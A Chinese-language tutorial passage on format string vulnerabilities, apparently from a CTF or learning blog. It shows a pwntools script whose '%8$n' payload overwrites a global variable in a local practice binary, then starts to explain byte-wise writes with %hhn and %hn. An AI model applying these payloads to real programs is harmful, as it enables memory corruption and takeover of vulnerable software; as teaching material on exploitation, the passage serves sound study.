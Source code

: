 ----------
#### 现在实施攻击 ####

利用ida可以得到a的地址为0x0804A028（由于a、b是已初始化的全局变量位于.data节中，而不在堆栈中，故NO PIE情况下.data）

![.data节中a的地址](/assets/img/cover6.jpg)

可构造如下代码：
    #!/usr/bin/python
    from pwn import *
    re = process('./cover')
    
    a_addr = 0x0804A028
    
    payload = "aa"+"%8$n"+"bb"+p32(a_addr)
    print payload
    
    re.sendline(payload)
    
    print re.recv()
    
    re.interactive()

![运行结果成功修改a为小数据](/assets/img/cover7.jpg)

其实，这里我们**需要掌握的小技巧就是，我们没有必要必须把地址放在最前面，放在那里都可以，只要我们可以找到其对应的偏移即可。**

当然tag可以先放在最前面，确定大致的偏移，再推算把地址放在中间时的偏移。

### 2.覆盖大数字 ###

对于大数字，我们可以选择直接一次性输出大数字的4个字节来进行覆盖[前面输出一堆字符，使得字符数=所需大数值]，但是这样基本也不会成功，因为太长了。而且即使成功，我们一次性等待的时间也太长了，那么有没有什么比较好的方式呢？自然是有了。

现在我们就尝试把变量b修改成大数字0x12345678。

不过在介绍之前，我们得先再简单了解一下，变量在内存中的存储格式。首先，所有的变量在内存中都是以字节进行存储的。此外，在x86和x64的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678在内存中由低地址到高地址依次为\x78\x56\x34\x12。

再者，我们可以回忆一下格式化字符串里面的标志，可以发现有这么两个标志：

> hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
> 
> h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。

所以说，我们可以**利用%hhn向某个地址写入单字节[而不是4字节4字节的写入，只修改这个地址下的字节,不影响其余3字节]，利用%hn向某个地址写入双字节**。

